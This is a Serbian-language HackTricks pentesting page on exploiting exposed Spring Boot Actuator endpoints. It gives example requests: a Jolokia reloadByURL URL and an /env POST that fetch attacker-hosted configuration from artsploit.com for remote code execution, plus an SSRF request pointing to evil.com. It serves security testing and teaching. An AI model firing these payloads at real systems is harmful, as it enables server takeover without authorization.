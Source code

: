 # Spring Actuators

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## **Spring Auth Bypass**

<figure><img src="../../.gitbook/assets/image (5) (2).png" alt=""><figcaption></figcaption></figure>

**Sa** [**https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png**](https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png)\*\*\*\*

## Iskorišćavanje Spring Boot Actuators

**Proverite originalni post sa** \[**https://www.veracode.com/blog/research/exploiting-spring-boot-actuators**]

### **Ključne tačke:**

* Spring Boot Actuators registruju endpointe kao što su `/health`, `/trace`, `/beans`, `/env`, itd. U verzijama od 1 do 1.4, ovi endpointi su dostupni bez autentifikacije. Od verzije 1.5 nadalje, samo `/health` i `/info` su podrazumevano neosetljivi, ali programeri često onemogućavaju ovu bezbednost.
* Određeni Actuator endpointi mogu otkriti osetljive podatke ili omogućiti štetne radnje:
* `/dump`, `/trace`, `/logfile`, `/shutdown`, `/mappings`, `/env`, `/actuator/env`, `/restart`, i `/heapdump`.
* U Spring Boot 1.x, aktuatori su registrovani pod korenskim URL-om, dok su u 2.x pod baznim putem `/actuator/`.

### **Tehnike iskorišćavanja:**

1. **Udaljeno izvršavanje koda putem '/jolokia'**:

* Endpoint `/jolokia` aktuatora otkriva Jolokia biblioteku, koja omogućava HTTP pristup MBean-ovima.
* Akcija `reloadByURL` može biti iskorišćena za ponovno učitavanje konfiguracija logovanja sa spoljnih URL-ova, što može dovesti do slepog XXE ili udaljenog izvršavanja koda putem prilagođenih XML konfiguracija.
* Primer URL-a za iskorišćavanje: `http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml`.

2. **Modifikacija konfiguracije putem '/env'**:

* Ako su prisutne Spring Cloud biblioteke, endpoint `/env` omogućava modifikaciju okruženjskih svojstava.
* Svojstva mogu biti manipulisana kako bi se iskoristile ranjivosti, kao što je ranjivost XStream deserijalizacije u Eureka serviceURL-u.
* Primer POST zahteva za iskorišćavanje:

```
POST /env HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream
```

3. **Druga korisna podešavanja**:

* Svojstva poput `spring.datasource.tomcat.validationQuery`, `spring.datasource.tomcat.url`, i `spring.datasource.tomcat.max-active` mogu biti manipulisana za razne napade, kao što su SQL injection ili izmena stringova za konekciju sa bazom podataka.

### **Dodatne informacije:**

* Kompletna lista podrazumevanih aktuatora može se pronaći [ovde](https://github.com/artsploit/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt).
* Endpoint `/env` u Spring Boot 2.x koristi JSON format za modifikaciju svojstava, ali opšti koncept ostaje isti.

### **Povezane teme:**

1. **Env + H2 RCE**:

* Detalji o iskorišćavanju kombinacije endpointa `/env` i H2 baze podataka mogu se pronaći [ovde](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database).

2. **SSRF na Spring Boot putem netačne interpretacije putanja**:

* Obrada matrica parametara (`;`) u HTTP putanjama Spring framework-a može biti iskorišćena za Server-Side Request Forgery (SSRF).
* Primer zahteva za iskorišćavanje:

```http
GET ;@evil.com/url HTTP/1.1
Host: target.com
Connection: close
```

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
